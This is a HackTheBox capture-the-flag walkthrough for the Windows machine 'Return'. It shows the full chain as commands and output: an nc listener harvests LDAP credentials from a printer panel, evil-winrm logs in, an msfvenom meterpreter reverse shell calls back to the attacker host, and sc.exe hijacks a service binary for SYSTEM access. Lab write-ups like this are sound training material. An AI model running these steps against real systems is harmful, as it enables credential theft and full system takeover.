



# CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Return](https://www.hackthebox.com/machines/Return)


- Machine type:  Windows
- Machine difficulty: 🟩 Easy (3.0)

> **Return** is an easy difficulty Windows machine featuring a network printer administration panel that stores LDAP credentials. These credentials can be captured by inputting a malicious LDAP server which allows obtaining foothold on the server through the WinRM service. User found to be part of a privilege group which further exploited to gain system access.

#### Skills Learned

- **Network Printer Abuse**
- **Server Operators Group Abuse**

#### Tools Used

Linux:
- `nmap`
- `whatweb`
- `nc`
- `burpsuite`
- `msfvenom`
- `msfconsole`
- `netexec`
- `evil-winrm`
Windows:
- `net.exe`
- `sc.exe`

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.144  netmask 255.255.254.0  destination 10.10.14.144

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.129.95.241\treturn.htb' | sudo tee -a /etc/hosts

10.129.95.241	return.htb
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSV -p- return.htb -T5 --min-rate=10000

[SNIP]

PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-30 16:06:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
54394/tcp open  msrpc         Microsoft Windows RPC
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://return.htb

http://return.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.95.241], Microsoft-IIS[10.0], PHP[7.4.13], Script, Title[HTB Printer Admin Panel], X-Powered-By[PHP/7.4.13]
```



**Network Printer Abuse**



```
┌──(nabla㉿kali)-[~]
└─$ sudo nc -lvnp 389

listening on [any] 389 ...

[CONTINUE]
```



```
[CONTINUE]

connect to [10.10.14.144] from (UNKNOWN) [10.129.95.241] 56337
0*`%return\svc-printer�
                       1edFg43012!!
```

```
┌──(nabla㉿kali)-[~]
└─$ netexec smb return.htb -u 'svc-printer' -p '1edFg43012!!'

SMB         10.129.95.241   445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.95.241   445    PRINTER          [+] return.local\svc-printer:1edFg43012!!
```

```
┌──(nabla㉿kali)-[~]
└─$ evil-winrm -i return.htb -u 'svc-printer' -p '1edFg43012!!'

[SNIP]

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> type C:\Users\svc-printer\Desktop\user.txt

a200e*************************** 🚩
```

**Server Operators Group Abuse**

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer

[SNIP]

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

```
┌──(nabla㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.144 LPORT=1337 -f exe > revsh.exe

[SNIP]

Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.10.14.144; set LPORT 1337; run"

[SNIP]

[*] Started reverse TCP handler on 10.10.14.144:1337

[CONTINUE]
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload revsh.exe

[SNIP]

Info: Uploading /home/nvbla/revsh.exe to C:\Users\svc-printer\Documents\revsh.exe
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath=C:\Users\svc-printer\Documents\revsh.exe

[SC] ChangeServiceConfig SUCCESS
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```

```
[CONTINUE]

[*] Sending stage (177734 bytes) to 10.129.95.241
[*] Meterpreter session 1 opened (10.10.14.144:1337 -> 10.129.95.241:57906) at 2025-06-30 11:38:14 -0500

(Meterpreter 1)(C:\Windows\system32) >
```

```
(Meterpreter 1)(C:\Windows\system32) > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
(Meterpreter 1)(C:\Windows\system32) > migrate -N lsass.exe

[*] Migrating from 4744 to 648...
[*] Migration completed successfully.
```

```
C:\Windows\system32> type C:\\Users\\Administrator\\Desktop\\root.txt

f7d67*************************** 🚩
```


---
---
